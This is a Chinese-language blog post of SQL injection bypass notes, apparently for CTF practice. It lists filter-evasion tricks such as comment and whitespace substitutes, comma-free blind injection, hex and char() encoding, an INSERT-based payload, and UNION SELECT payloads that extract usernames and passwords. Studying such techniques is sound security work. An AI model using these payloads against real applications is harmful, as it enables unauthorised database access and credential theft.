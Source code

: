 ```yaml
---
title: sql注入技巧
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - SQL
description: sql注入的一些绕过技巧
abbrlink: 1c713f30
tags:
---
```



# sql注入技巧

## 1 绕过检查：
### 1.1 注释：
单个的：
```sql
#
%23
-- （两个-加一个空格）
--+
;%00
```
分开两个的：
```sql
/*
*/
```

### 1.2 等号：
```sql
a=a
a like a
a regexp a	(正则)
!(a<>a)
```
### 1.3 or：
```sql
||
```	
### 1.4 空格：
```sql
/**/
and(1=0)		//利用小括号
%09 %0a %0c %0b %0d 	//空白字符
```

> 过滤空格之后检测，可以采用```?id=(1)=(2)```的方法

### 1.5 无法传入字符串：
转换成16进制然后前面加0x

### 1.6 单引号绕过
方法1. 使用单引号的编码%20
方法2. 利用前一个的单引号闭合后面的



## 2 跳过第一个数据的方法：
```sql
limit 1 offset 1
```

> ```limit``` 与 ```offset```：从下标0开始
> ```offset X```   是跳过X个数据
> ```limit Y```    是选取Y个数据
> ```limit  X,Y``` 中X表示跳过X个数据，读取Y个数据

当```limit```后面跟两个参数的时候，第一个数表示要跳过的数量，后一位表示要取的数量,
例如```select* from article LIMIT 1,3``` 就是跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据

当 ```limit```后面跟一个参数的时候，该参数表示要取的数据的数量
例如```select* from article LIMIT 3```  表示直接取前三条数据，类似sqlserver里的```top```语法。

当 ```limit```和```offset```组合使用的时候，```limit```后面只能有一个参数，表示要取的的数量,```offset```表示要跳过的数量 。
例如```select * from article LIMIT 3 OFFSET 1 ```表示跳过1条数据,从第2条数据开始取，取3条数据，也就是取2,3,4三条数据



## 3 插入函数insert()的相关

> 插入函数格式

```insert(a,'a',a,'a')```  插入一条（一条里面4个变量）
```insert(a,'a',a,'a'),(b,'b',b,'b')```  插入两条（一条里面4个变量）
比如说构造```q'),('a','a',database(),'a')%23```，进行插入两条数据的sql注入
或者放弃最后一个变量，构造```q'),('a',database(),'```，利用第二个可控变量进行sql注入


## 4 当逗号","被过滤后
(1)一般时间延迟盲注都是用 ```if(exp1,exp2,epx3)``` 
逗号被过滤后可以使用 ```select case when (条件) then 代码1 else 代码 2 end```;
(2)在 exp1 中要用到 ```substr()```来进行剪切，这个函数 ```substr(str,1,1)``` 又是存在 ```,``` , 
于是这里又用 ```substr (str) from 1 for 1``` 来绕过```,```的限制


## 5 遇到两张表都有名字叫id，password的字段时
例如：
数据库叫```geek```；在```geek```下有两张表，分别叫```geekuser```,```l0ve1ysq1```
当想查询```l0ve1ysq1```中的```id```，```password```的字段时，
使用```union select 1,2,group_concat(char(58,58,58),id,username,password) from geek.l0ve1ysq1```

## 6 php中preg_match()函数过滤掉字母等东西时
使用```char()```函数绕过，比如说 ```(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))``` 是 ```/flagg ```

## 7 如果当前数据库不是flag所在的数据库，最后得到字段名之后查找应该变成
```union select 1,2,group_concat(char(58,58,58),id,username,password) from ctf.Flag```